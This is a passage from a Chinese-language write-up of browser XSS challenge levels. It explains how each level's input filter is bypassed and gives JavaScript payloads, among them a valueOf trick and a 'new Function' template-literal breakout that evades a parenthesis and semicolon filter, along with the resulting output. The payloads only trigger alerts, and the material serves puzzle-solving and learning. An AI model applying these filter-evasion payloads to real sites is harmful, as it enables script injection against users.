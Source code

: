 利用self把`valueOf()`定义为`the_easy_but_expensive_way_out`，然后使两个对象相加，运算时会调用`valueOf()`取对象的原始值，也就调用了`the_easy_but_expensive_way_out`

需要调用两次，因为第一次是alert(0)

Payload

```
{"valueOf":self["the_easy_but_expensive_way_out"]}+{"valueOf":self["the_easy_but_expensive_way_out"]}
```

Output

```
空
```

Console output

```
Alert: 0
NaN
```



## Well

```javascript
function escape(s) {
  http://www.avlidienbrunn.se/xsschallenge/

  s = s.replace(/[\r\n\u2028\u2029\\;,()\[\]<]/g, '');
  return "<script> var email = '" + s + "'; <\/script>";
}
```

过滤了`\r \n \u2028 \u2029 \ ; , ( ) [ ] <`

没有过滤单引号，可以闭合前面的单引号

可以利用new Function

分号被过滤可以使用|代替

没括号用反引号

Payload

```
'|new Function`a${'alert`1`'}`|'
```

Output

```
<script> var email = ''|new Function`a${'alert`1`'}`|''; </script>
```

Console output
